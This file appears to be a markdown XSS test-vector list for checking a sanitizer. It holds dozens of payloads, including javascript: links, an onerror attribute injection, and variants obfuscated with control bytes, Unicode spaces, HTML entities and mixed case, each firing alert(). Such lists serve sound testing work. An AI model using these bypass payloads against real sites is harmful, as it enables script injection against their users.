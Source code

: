 [Click me](javascript:alert('XSS'))

[Click me](java%0Ascript:alert("XSS"))

<javascript:alert("XSS")>

![Inline image](data:image/gif;base64,R0lGODlhEAAQAMQAAORHHOVSKudfOulrSOp3WOyDZu6QdvCchPGolfO0o/XBs/fNwfjZ0frl3/zy7////wAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACH5BAkAABAALAAAAAAQABAAAAVVICSOZGlCQAosJ6mu7fiyZeKqNKToQGDsM8hBADgUXoGAiqhSvp5QAnQKGIgUhwFUYLCVDFCrKUE1lBavAViFIDlTImbKC5Gm2hB0SlBCBMQiB0UjIQA7)

![Inline image](xx" onerror="javascript:alert(1))

<javas\x00cript:javascript:alert(1)>

<javas\x01cript:javascript:alert(1)>

<javas\x02cript:javascript:alert(1)>

<javas\x03cript:javascript:alert(1)>

<javas\x04cript:javascript:alert(1)>

<javas\x05cript:javascript:alert(1)>

<javas\x06cript:javascript:alert(1)>

<javas\x07cript:javascript:alert(1)>

<javas\x08cript:javascript:alert(1)>

javas\x09cript:javascript:alert(1)>

<javas\x0Acript:javascript:alert(1)>

<javas\x0Bcript:javascript:alert(1)>

<javas\x0Ccript:javascript:alert(1)>

<javas\x0Dcript:javascript:alert(1)>

<javascript\x3Ajavascript:alert(1)>

<\x0Bjavascript:javascript:alert(1)>

<\x0Fjavascript:javascript:alert(1)>

<\xC2\xA0javascript:javascript:alert(1)>

<\x05javascript:javascript:alert(1)>

<\xE1\xA0\x8Ejavascript:javascript:alert(1)>

<\x18javascript:javascript:alert(1)>

<\x11javascript:javascript:alert(1)>

<\xE2\x80\x88javascript:javascript:alert(1)>

<\xE2\x80\x89javascript:javascript:alert(1)>

<\xE2\x80\x80javascript:javascript:alert(1)>

<\x17javascript:javascript:alert(1)>

<\x03javascript:javascript:alert(1)>

<\x0Ejavascript:javascript:alert(1)>

<\x1Ajavascript:javascript:alert(1)>

<\x00javascript:javascript:alert(1)>

<\x10javascript:javascript:alert(1)>

<\xE2\x80\x82javascript:javascript:alert(1)>

<\x20javascript:javascript:alert(1)>

<\x13javascript:javascript:alert(1)>

<\x09javascript:javascript:alert(1)>

<\xE2\x80\x8Ajavascript:javascript:alert(1)>

<\x14javascript:javascript:alert(1)>

<\x19javascript:javascript:alert(1)>

<\xE2\x80\xAFjavascript:javascript:alert(1)>

<\x1Fjavascript:javascript:alert(1)>

<\xE2\x80\x81javascript:javascript:alert(1)>

<\x1Djavascript:javascript:alert(1)>

<\xE2\x80\x87javascript:javascript:alert(1)>

<\x07javascript:javascript:alert(1)>

<\xE1\x9A\x80javascript:javascript:alert(1)>

<\xE2\x80\x83javascript:javascript:alert(1)>

<\x04javascript:javascript:alert(1)>

<\x01javascript:javascript:alert(1)>

<\x08javascript:javascript:alert(1)>

<\xE2\x80\x84javascript:javascript:alert(1)>

<\xE2\x80\x86javascript:javascript:alert(1)>

<\xE3\x80\x80javascript:javascript:alert(1)>

<\x12javascript:javascript:alert(1)>

<\x0Djavascript:javascript:alert(1)>

<\x0Ajavascript:javascript:alert(1)>

<\x0Cjavascript:javascript:alert(1)>

<\x15javascript:javascript:alert(1)>

<\xE2\x80\xA8javascript:javascript:alert(1)>

<\x16javascript:javascript:alert(1)>

<\x02javascript:javascript:alert(1)>

<\x1Bjavascript:javascript:alert(1)>

<\x06javascript:javascript:alert(1)>

<\xE2\x80\xA9javascript:javascript:alert(1)>

<\xE2\x80\x85javascript:javascript:alert(1)>

<\x1Ejavascript:javascript:alert(1)>

<\xE2\x81\x9Fjavascript:javascript:alert(1)>

<\x1Cjavascript:javascript:alert(1)>

<javascript\x00:javascript:alert(1)>

<javascript\x3A:javascript:alert(1)>

<javascript\x09:javascript:alert(1)>

<javascript\x0D:javascript:alert(1)>

<javascript\x0A:javascript:alert(1)>

<java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>

<jav&#65ascript:javascript:alert(1)>

<jav&#97ascript:javascript:alert(1)>

<jAvAsCrIpT:alert(1)>